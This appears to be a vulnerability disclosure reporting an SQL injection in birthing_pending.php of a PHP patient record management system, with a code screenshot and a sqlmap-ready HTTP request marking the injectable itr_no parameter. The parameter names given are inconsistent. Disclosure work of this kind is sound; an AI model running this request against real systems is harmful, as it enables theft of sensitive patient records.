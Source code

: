 # patient-record-management-system-in-php has sql injection in birthing_pending.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

birthing_pending.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in birthing_pending.php The parameters that can be controlled are as follows: $birth_id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/d57664a0-3c4c-4bd4-a23c-92ae28308bca)



## POC

run sqlmap.py 

```
GET /birthing_pending.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
